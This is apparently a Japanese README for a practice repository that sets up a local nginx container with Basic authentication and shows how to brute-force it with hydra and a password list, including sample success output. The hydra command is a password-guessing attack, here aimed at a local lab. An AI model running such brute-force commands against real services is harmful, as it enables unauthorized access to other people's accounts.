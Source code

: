 # Basic認証を突破する練習レポジトリ

## 立ち上げ

```
docker-compose build
docker-compsoe up
```

##　パスワード生成
```
sudo htpasswd -c /etc/nginx/.htpasswd [ユーザ名]
```

## コンテナの中に入ってhydra実行
```
docker exec -ti basic-auth /bin/bash
hydra -l username -P password-list.txt localhost http-get /index.html
```

成功したら以下のようになる

```
[80][http-get] host: localhost   login: username   password: password
1 of 1 target successfully completed, 1 valid password found
```

